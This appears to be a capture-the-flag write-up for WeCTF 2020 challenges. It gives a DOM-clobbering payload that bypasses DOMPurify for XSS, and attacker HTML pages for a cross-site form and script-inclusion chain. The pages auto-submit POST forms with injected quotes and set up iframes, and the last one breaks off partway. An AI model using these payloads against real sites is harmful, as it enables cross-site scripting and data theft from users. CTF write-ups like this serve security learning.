 **Description**

Here is where Shou keeps his pathetic diaries and a shinny flag.

**Writeup**

DOM Clobbering => XSS

Set title as following could make content bypass DOMPurify.
```html
<a id="_debug"></a><a id="_debug" name="key" href="sha1:f03e8a370aa8dc80f63a6d67401a692ae72fa530"></a>
```

## Wallet
4 solves

**Description**

Shou has a habit of saving secret (i.e. flag) in the blockchain. Here is where he stores his bitcoin addresses.

Note: wrap what you find on blockchain with we{.....}

Hint 1: You should leak the bitcoin address in Shou's wallet first.

Hint 2: Shou is using Firefox. Firefox does not have CORB.

Handout: https://github.com/wectf/2020p/blob/master/wallet/handout.zip

**Writeup**
XFS + XSSI + Some recon

0.html:
```html
<form action="http://[HOST]/address" method="post" id="f">
    <input name="address" value='xxxx"'/>
</form>
</body>
<script>
    f.submit()
</script>
```

1.html
```html
<form action="http://[HOST]/style" method="post" id="f">
    <input name="style" value='"Raw'/>
</form>
</body>
<script>
    f.submit()
</script>
```

2.html
```html
<div id=iframe2></div>
<div id=iframe3></div>
<script id="script1"></script>
<script>
    function sleep(ms) {
        return new Promise(resolve => setTimeout(resolve, ms));
    }
    async function main(){
        ifr2 = document.createElement('iframe');
        ifr2.name='attack';
        ifr2.src = "0.html";
        iframe2.appendChild(ifr2);
        await sleep(1000);
        ifr3 = document.createElement('iframe');
```